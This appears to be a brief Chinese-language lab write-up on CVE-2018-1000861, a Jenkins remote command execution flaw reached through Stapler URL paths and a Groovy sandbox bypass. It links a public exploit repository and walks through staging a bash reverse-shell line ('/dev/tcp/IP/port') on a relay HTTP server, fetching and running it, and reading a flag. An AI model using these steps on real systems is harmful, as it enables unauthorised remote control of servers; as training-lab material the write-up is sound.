


# CVE-2018-1000861(Jekins 远程命令执行)

## 漏洞概述

Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。

首先打开靶场。

因为此漏洞无回显，所以直接用脚本反弹 shell 了，附上下载链接：

`https://github.com/orangetw/awesome-jenkins-rce-2019/`

首先在跳板机上面创建一个 TXT 文档，文档内容为：

`bash -i >& /dev/tcp/IP/port 0>&1`

然后在跳板机上面创建一个 HTTP 服务，命令如下：

`python3 -m http.server`

然后利用脚本去下载 跳板机上面 shell 文档

在你的跳板机上开启监听，端口是刚才 shell 文档里写的端口

然后执行 shell 文档

成功反弹，并执行 ls /tmp 查看 Flag

也可以利用 Goby 直接去利用

